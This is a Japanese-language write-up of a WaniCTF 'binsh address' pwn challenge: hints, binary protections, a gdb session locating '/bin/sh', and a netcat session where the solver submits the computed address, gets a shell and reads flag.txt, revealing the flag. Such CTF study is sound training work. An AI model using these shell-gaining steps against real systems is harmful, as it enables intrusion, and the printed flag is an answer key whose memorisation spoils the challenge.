 # binsh address:PWN:102pts
nc binsh.wanictf.org 9003  
- 文字列はメモリのどこかに配置されています。  
- strings -tx ./pwn03 | less  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- [strings](https://github.com/wani-hackase/memo-setup-pwn-utils#strings)  

セキュリティ保護  
- Full RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)有効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)有効  

[pwn03](pwn03)　　　　[pwn03.c](pwn03.c)  

# Solution
pwn03が配られる。  
実行してみると/bin/shのアドレスをよこせと言われる。  
PIEが有効なので末尾以外が変動する。  
gdbで解析する。  
```bash
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x558370f45010.
Please input "/bin/sh" address as a hex number: ^C
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x564495806010.
Please input "/bin/sh" address as a hex number: ^C
$ ./pwn03
The address of "input  " is 0x7f18f8002010.
Please input "/bin/sh" address as a hex number: ^C
$ ./pwn03
The address of "input  " is 0x7fc502202010.
Please input "/bin/sh" address as a hex number: ^C
$ gdb pwn03
~~~
gdb-peda$ start
~~~
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 2 results, display max 2 items:
pwn03 : 0x8202020 --> 0x68732f6e69622f ('/bin/sh')
 libc : 0x7fffff1b40fa --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ c
Continuing.
The address of "input  " is 0x8202010.
Please input "/bin/sh" address as a hex number: ^C
~~~
gdb-peda$ q
```
出力されたアドレスの末尾を20に変更すればよい。  
```bash
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x560a6a0cf010.
Please input "/bin/sh" address as a hex number: 0x560a6a0cf020
Your input address is 0x560a6a0cf020.
Congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{cAn-f1nd-str1ng-us1ng-str1ngs}
^C
```
flagが得られた。  

## FLAG{cAn-f1nd-str1ng-us1ng-str1ngs}